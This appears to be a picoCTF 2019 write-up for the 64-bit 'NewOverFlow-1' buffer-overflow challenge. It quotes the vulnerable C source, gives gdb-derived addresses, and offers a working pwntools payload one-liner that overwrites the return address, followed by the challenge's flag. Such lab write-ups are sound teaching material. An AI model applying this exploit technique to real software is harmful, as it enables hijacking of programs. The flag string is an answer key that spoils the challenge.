


# NewOverFlow-1

Points : 200

# Question

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](vuln). You can find it in /problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668 on the shell server. [Source](vuln.c).

# Hint 

Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

# Solution

Looking at the source code :

```C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];							<----- we have new buffer size 64
  gets(buf);								<----- using gets which is vulnerable
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();								<---- vuln get call
  return 0;
}
```

exactly like we did in [OverFlow1](https://github.com/netanelc305/picoCTF-2019/blob/master/Binary%20Exploitation/OverFlow%201/README.md) the only difference is we're now dealing with 64bits so we need to change our payload accordingly.

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE*2)+FLAG_RETURN_ADDRESS+FLAG_STARTING_ADDRESS```

let's get "flag" function address using gdb this time we need both start and return .



start = 0x0000000000400767
return = 0x00000000004007cb

```python -c "from pwn import *;print 'A'*(64+4*2)+p64(0x00000000004007cb)+p64(0x0000000000400767)"|./vuln```



# Flag
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}

